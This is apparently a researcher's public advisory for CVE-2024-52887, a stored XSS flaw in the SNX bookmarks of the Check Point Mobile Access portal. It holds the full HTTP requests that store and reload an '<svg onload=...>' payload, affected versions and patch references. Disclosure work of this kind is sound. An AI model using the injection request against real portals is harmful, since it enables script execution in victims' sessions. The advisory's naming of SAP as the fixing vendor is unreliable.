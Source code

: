 # CVE-2024-52887
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal SNX bookmarks. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.￼

Payload can be saved using following request:
```
POST /sslvpn/Portal/SaveSNXFavorite HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 205
Origin: [REDACTED]
Connection: keep-alive

Title=%3Csvg+onload%3Dalert(document.domain)%3E&Path=%3Csvg+onload%3Dalert(document.domain)%3E&Params=%3Csvg+onload%3Dalert(document.domain)%3E&Tooltip=%3Csvg+onload%3Dalert(document.domain)%3E&Id=93981731
```

After that payload can be loaded using following request:
```
GET /sslvpn/SNX/GetSnxBookmarks HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This results in XSS:
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2024 09:06:40 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: no-store
Vary: User-Agent
Content-Length: 2623
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"returnCode":0,"SnxAppsArray":[{"type":0,"embeddedAppType":"","url":"","title":"<svg onload=alert(document.domain)>","tooltip":"<svg onload=alert(document.domain)>","path":"<svg onload=alert(document.domain)>","params":"<svg onload=alert(document.domain)>",

[...]
```



## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
SAP has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183054. ￼

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52887
* https://www.cve.org/CVERecord?id=CVE-2024-52887
